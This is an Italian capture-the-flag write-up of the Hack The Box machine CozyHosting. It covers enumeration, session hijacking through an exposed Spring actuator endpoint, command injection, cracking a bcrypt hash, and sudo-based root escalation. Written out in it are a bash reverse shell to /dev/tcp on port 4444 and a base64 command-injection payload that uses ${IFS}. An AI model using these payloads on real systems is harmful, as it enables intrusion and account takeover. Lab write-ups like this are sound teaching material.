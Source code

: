 # CozyHosting

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.11.230
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 22**: OpenSSH 8.9p1
* **Porta 80**:  nginx 1.18.0

```text
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/22%OT=22%CT=1%CU=33530%PV=Y%DS=2%DC=I%G=Y%TM=650D966
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Innanzitutto, vedo cosa c'è sulla porta 80:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-1.png" />
</p>

Aggiungo il nome di dominio _cozyhosting.htb_ al file _/etc/hosts/_.

Utilizzo _dirb_, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Sep 22 09:35:26 2023
URL_BASE: http://cozyhosting.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://cozyhosting.htb/ ----
+ http://cozyhosting.htb/admin (CODE:401|SIZE:97)                                                                                                                   
+ http://cozyhosting.htb/error (CODE:500|SIZE:73)                                                                                                                   
+ http://cozyhosting.htb/index (CODE:200|SIZE:12706)                                                                                                                
+ http://cozyhosting.htb/login (CODE:200|SIZE:4431)                                                                                                                 
+ http://cozyhosting.htb/logout (CODE:204|SIZE:0)                                                                                     

-----------------
END_TIME: Fri Sep 22 09:39:52 2023
DOWNLOADED: 4612 - FOUND: 5

```

Ma non trovo nulla di interessante. Quindi provo con _dirsearch_:

```text
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/kali/.dirsearch/reports/cozyhosting.htb/-_23-09-22_11-03-50.txt

Error Log: /home/kali/.dirsearch/logs/errors-23-09-22_11-03-50.log

Target: http://cozyhosting.htb/

[11:03:50] Starting:
[11:03:58] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[11:04:02] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[11:04:03] 400 -  435B  - /a%5c.aspx
[11:04:04] 200 -    5KB - /actuator/env
[11:04:04] 200 -  634B  - /actuator
[11:04:04] 200 -   15B  - /actuator/health
[11:04:04] 200 -   10KB - /actuator/mappings
[11:04:04] 200 -   48B  - /actuator/sessions
[11:04:04] 200 -  124KB - /actuator/beans
[11:04:04] 401 -   97B  - /admin
[11:04:26] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[11:04:26] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[11:04:26] 500 -   73B  - /error
[11:04:26] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[11:04:27] 200 -    0B  - /extjs/resources//charts.swf
[11:04:30] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[11:04:31] 200 -   12KB - /index
[11:04:35] 200 -    4KB - /login
[11:04:35] 200 -    0B  - /login.wdm%2e
[11:04:35] 204 -    0B  - /logout
[11:04:50] 400 -  435B  - /servlet/%C0%AE%C0%AE%C0%AF

Task Completed

```

Visito la pagina http://cozyhosting.htb/actuator/sessions:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-2.png"/>
</p>

Da qui riesco a recuperare l'id di sessione dell'utente _kanderson_. Utilizzando _burp_ riesco ad entrare nella pagina http://cozyhosting.htb/admin con l'id di sessione appena scoperto:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-3.png"/>
</p>

Provo ad utilzzare il form riempendo i campi e inviando la richiesta:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-4.png"/>
</p>

Intercetto la richiesta su burp:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-5.png"/>
</p>

Invio la richiesta al Repeater e la modifico eliminando l'username. Dalla risposta ricevuta capisco che potrebbe essere vulberabile al command injection.

## Exploitation

Per provare a sfruttare questa vulnerabilità avvio un listener sulla porta 4444 e trasformo in base64 il seguente comando:

```text
"bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"
```

```text
echo "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1" | base64 -w 0
```

Ottenendo questo:

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQo=
```

Provo ad inviare nuovamente la richiesta inserendo nel campo username il seguente testo:

```text
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQo="|base64${IFS}-d|bash;
```

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-6.png"/>
</p>

**Sono dentro!**

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-7.png"/>
</p>


## Privilege Escalation

Per prima cosa trasferisco sulla mia macchina il file _cloudhosting-0.0.1.jar_.

Per farlo avvio un server http (porta 8888) tramite python sulla macchia cozyhosting e scarico il file visitando la pagina http://10.10.11.230:8888:


<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-8.png"/>
</p>

Ispezionando il jar mi imbatto nel seguente file:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-9.png"/>
</p>

Quindi utilizzo le credenziali trovate per accedere al DB POSTGRESQL:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-10.png"/>
</p>

Provo ad ottenere informazioni sull'hash trovato tramite il comando _hashid_:


```text
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```

Quindi cerco di scoprire la password nascosta dietro l'hash tramite _hashcat_:

```text
echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt      
```                                                                                                                                    
```text
hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

Questo è l'output del comando:

```text
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

**Ho la password per l'utente josh!**

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-11.png"/>
</p>


Ora bisogna capire come diventare l'utente root. Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-12.png"/>
</p>

Sfrutto la seguente [guida](https://gtfobins.github.io/gtfobins/ssh/#sudo) per diventare l'utente root:

<p align="center">
  <img src="/Immagini/Linux-Box/CozyHosting/cozyhosting-13.png"/>
</p>
